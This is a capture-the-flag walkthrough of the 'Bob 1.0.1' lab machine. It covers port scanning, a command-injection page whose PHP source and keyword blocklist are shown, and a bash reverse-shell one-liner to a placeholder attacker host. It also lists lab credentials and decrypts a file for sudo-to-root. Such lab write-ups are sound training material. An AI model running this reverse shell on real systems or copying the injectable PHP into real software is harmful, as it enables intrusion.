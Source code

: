 # Bob-1.0.1-Walkthrough

### Information Gathering
Apache server running on 80
Secret ssh running on 25468


### Service Enumeration
Nmap scan results:
```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
| http-robots.txt: 4 disallowed entries 
| /login.php /dev_shell.php /lat_memo.html 
|_/passwords.html
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
25468/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.4p1 Debian 10+deb9u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 84:f2:f8:e5:ed:3e:14:f3:93:d4:1e:4c:41:3b:a2:a9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCt2rmQKSTx+fbTOy3a0DG0GI5KOP+x81YHI31kH8V+gXu+BhrvzTtvQbg/KUaxkxNXirQKm3v23b/BNGLm2EmG28T8H1kisT5LhmfJ+w1X/Y7xnXiTYxwxKWF8NHMsQGIKWB8bCPK+2LvG3MdF6cKniSIiT8C8N66F6yTPQyuW9z68pK7Zj4wm0nrkvQ9Mr++Kj4A4WIhxaYd0+hPnSUNIGLr+XC7mRVUtDSvfP0RqguibeQ2yoB974ZTF0uU0Zpq7BK8/loAl4nFu/6vwLU7BjYm3BlU3fvjDNlSwqbsjwgn/kTfySxZ/WiifZW3U1WLLdY4CQZ++nR2odDNy8YQb
|   256 5b:98:c7:4f:84:6e:fd:56:6a:35:16:83:aa:9c:ea:f8 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIntdI8IcX2n63A3tEIasPt0W0Lg31IAVGyzesYMblJsc1zM1jmaJ9d6w6PpZKa+7Ow/5yXX2DOF03pAHXP1S5A=
|   256 39:16:56:fb:4e:0f:50:85:40:d3:53:22:41:43:38:15 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMmbgZpOuy0D5idStSgBUVb4JjRuAdv/7XF5dGDJgUqE
MAC Address: 08:00:27:89:7A:38 (Oracle VirtualBox virtual NIC)
```


### Initial Exploitation


Explanation:
Navigating to robots.txt I discovered some directories:
`User-agent: *
Disallow: /login.php
Disallow: /dev_shell.php
Disallow: /lat_memo.html
Disallow: /passwords.html`

Navigating to /dev_shell.php it seems that we have a live shell to run commands on the system. You will notice that there is some filtering going on that we need to bypass. Running `dir` we get a directory listing. The file `dev_shell.php.bak` may give us some useful information about the current page we are using. Naviate to /dev_shell.php.bak in the browser and download the file. After examining the file we can see the underlying php code that is filtering our input. It has an array of bad words that it checks for and doesn't allow semicolons. 


vulnerable php code:
```php
<?php
    //init
    $invalid = 0;
    $command = ($_POST['in_command']);
    $bad_words = array("pwd", "ls", "netcat", "ssh", "wget", "ping", "traceroute", "cat", "nc");
?>
<?php
    system("running command...");
      //executes system Command
      //checks for sneaky ;
      if (strpos($command, ';') !==false){
        system("echo Nice try skid, but you will never get through this bulletproof php code"); //doesn't work :P
      }
      else{
        $is_he_a_bad_man = explode(' ', trim($command)); // cat /etc/passwd
        //checks for dangerous commands
        if (in_array($is_he_a_bad_man[0], $bad_words)){
          system("echo Get out skid lol");
        }
        else{
          system($_POST['in_command']);
        }
      }
?>
```

> All we have to do is use a payload that doesn't contain any words from the array or any semicolons. I used a bash reverse shell and it worked just fine.

Proof of Concept:
```bash
bash -c 'exec bash -i &>/dev/tcp/<attacker IP>/<attacker PORT> <&1'
```


### Privilege Escalation
Vulnerability Explanation:
In bobs home directory found old password file. Enumerating all home directories of users we end up getting more credentials:
`jc:	Qwerty
seb:	T1tanium_Pa$$word_Hack3rs_Fear_M3
elliot:	theadminisdumb
`


#### Root

Root access explanation:
To get root access you must find bobs password. This was a sticking point and I had to peek at a walkthrough. Once I saw I felt find about it because there was no way I was guessing this... You had to look at the script in bobs home directory and take the first letter of each line echoed out to create a passphrase. That passphrase is then used to decrypt login.txt.gpg which contains bobs password.

notes.sh:
```bash
#!/bin/bash
clear
echo "-= Notes =-"
echo "Harry Potter is my faviorite"
echo "Are you the real me?"
echo "Right, I'm ordering pizza this is going nowhere"
echo "People just don't get me"
echo "Ohhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhhh <sea santy here>"
echo "Cucumber"
echo "Rest now your eyes are sleepy"
echo "Are you gonna stop reading this yet?"
echo "Time to fix the server"
echo "Everyone is annoying"
echo "Sticky notes gotta buy em"
```
Using the following command you can then decrypt the file.

```bash
jc@Milburg-High:/home/bob/Documents$ gpg --batch --passphrase HARPOCRATES -d login.txt.gpg 
gpg: AES encrypted data
gpg: encrypted with 1 passphrase
bob:b0bcat_
```

Bob can run sudo on all commands so switching to root is simple.
Switch to bob:
```bash
bob@Milburg-High:~/Documents$ sudo su
sudo: unable to resolve host Milburg-High
root@Milburg-High:/home/bob/Documents# cat /flag.txt
CONGRATS ON GAINING ROOT

        .-.
       (   )
        |~|       _.--._
        |~|~:'--~'      |
        | | :   #root   |
        | | :     _.--._|
        |~|~`'--~'
        | |
        | |
        | |
        | |
        | |
        | |
        | |
        | |
        | |
   _____|_|_________ Thanks for playing ~c0rruptedb1t
```
